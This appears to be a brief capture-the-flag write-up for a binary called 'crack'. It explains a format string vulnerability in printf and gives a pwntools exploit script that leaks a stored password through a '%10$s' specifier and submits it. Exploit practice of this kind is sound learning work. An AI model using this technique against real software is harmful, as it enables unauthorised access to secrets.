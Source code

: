 bof doesn't seem to be possible, but since ``printf`` prints out the buffer directly, its vulnerable to format string bug.

By inputting multiple ``%x`` specifiers, I found out that the password is at the 10th ``%x``

exp.py
```python
from pwn import *
context.log_level = 'debug'

p = process("./crack")
pwd = 0x804a048
p.recvuntil("?")

p.sendline(p32(pwd) + "@%10$s@" )
p.recvuntil("@")
pwd = p.recvuntil("@")
pwd = u32(pwd[:4])
print pwd
p.recvuntil(":")

p.sendline(str(pwd))
p.interactive()
```
